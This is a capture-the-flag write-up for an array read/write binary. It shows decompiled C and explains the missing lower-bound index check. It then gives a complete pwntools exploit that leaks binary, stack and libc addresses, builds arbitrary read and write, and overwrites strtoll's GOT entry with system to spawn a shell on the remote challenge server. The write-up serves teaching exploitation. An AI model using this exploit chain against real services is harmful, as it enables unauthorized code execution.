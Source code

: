 As always, lets pop the binary into IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // r15
  __int64 index; // rax
  __int64 v6[100]; // [rsp+0h] [rbp-3C8h]
  char input[104]; // [rsp+320h] [rbp-A8h] BYREF
  unsigned __int64 canary; // [rsp+388h] [rbp-40h]

  canary = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  puts("Your array has 100 entries");
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Read/Write?: ");
      fgets(input, 100, stdin);
      if ( input[0] != 'R' )
        break;
      printf("Index: ");
      fgets(input, 100, stdin);
      index = strtoll(input, 0LL, 10);
      if ( index > 99 )
LABEL_6:
        puts("Invalid index");
      else
        printf("Value: %lld\n", v6[index]);
    }
    if ( input[0] != 'W' )
      break;
    printf("Index: ");
    fgets(input, 100, stdin);
    v3 = strtoll(input, 0LL, 10);
    if ( v3 > 99 )
      goto LABEL_6;
    printf("Value: ");
    fgets(input, 100, stdin);
    v6[v3] = strtoll(input, 0LL, 10);
  }
  puts("Invalid option");
  return 0;
}
```

This binary basiclly consists of two basic things.
You can read from the array, or write to the array.
The following python code interacts with the binary:

```py
elf = ELF("array")
libc = ELF("libc.so.6") #after libc search and pwninit

p = remote('34.124.157.94' , 10546)
def read_buf(idx):
        p.recvuntil("?: ")
        p.sendline("R")
        p.recvuntil("Index: ")
        p.sendline(str(idx))
        p.recvuntil("Value: ")
        res = p.recvline()[:-1]
        return int(res)

def write_buf(idx, val):
        p.recvuntil("?: ")
        p.sendline("W")
        p.recvuntil("Index: ")
        p.sendline(str(idx))
        p.recvuntil("Value: ")
        p.sendline(str(val))

```

The bug here is that the binary doesn't check for the lower bound, so we can read/write to any place we want.
After we run checksec on the binary, we can see that its really mitagated:
```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  '.'
```
it contains a stack-canary (which is a random value stored right before the RBP in the stack to protect from buffer overflows)
NX is enabled (which marks the bss/stack/heap pages as non-executable)
PIE is enabled (which means that the binary is loaded to a random memory)
And lastly its Partial-Relro, which means it will resolve libc function in run time(+ its not full-relro so we can do got-overwrites)

our plan for exploting this binary will be as follows:
We want to gain a write-what-where primitive from our write-what-buffer :) functionliity.
In order to do that, we need binary address leak, stack leak, and libc leak.
We can see the the buffer isn't zeroed. this means that we can read and leak previously used data in the stack.
I leaked the binary address from 1 address before the buffer (so I entered -1 to the readbuf functionlity)
and I leaked a stack address from -7.
After leaking this stack offset, I saw that our buffer address is 0x320 bytes before that address.
So we basiclly know the address of the buffer!
Why is it important you ask?
Well, since we can read/write `buffer_address - i`, once we know buffer_address, after choosing `i = buffer_address + addr`, we can read any location we want!
(aslong as its before the buffer, but the stack is one of the last pages in the elf so thats fine)
This way I gained my arbitrary read/write primitive:

```py
def arb_read(addr):
        return read_buf((addr - buffer_addr) // 8) #since read_buf will read from buffer_addr + 8*input, if input = (addr - buffer)/8_addr it will read from addr.

def arb_write(addr, what):
        return write_buf((addr - buffer_addr) // 8, what) 

elf.address = read_buf(-1) - 0x11f5
stack = read_buf(-7)
buffer_addr = stack - 0x320
```
now after we gain arbitrary read, its rivial to leak libc.
We just read the one of the got function and substract their offset:
`libc.address = arb_read(elf.got['puts']) - libc.sym.puts`

now we can just do a got-overwrite with our arbitrary write, and replace strtoll with system. (strtoll will be called with our input in RDI, which is the parameter for system)

```py
arb_write(elf.got['strtoll'], libc.sym.system) #got overwrite
p.recvuntil("?: ")
p.sendline("R")
p.recvuntil("Index: ")
p.sendline('/bin/sh\x00')

p.interactive()
```
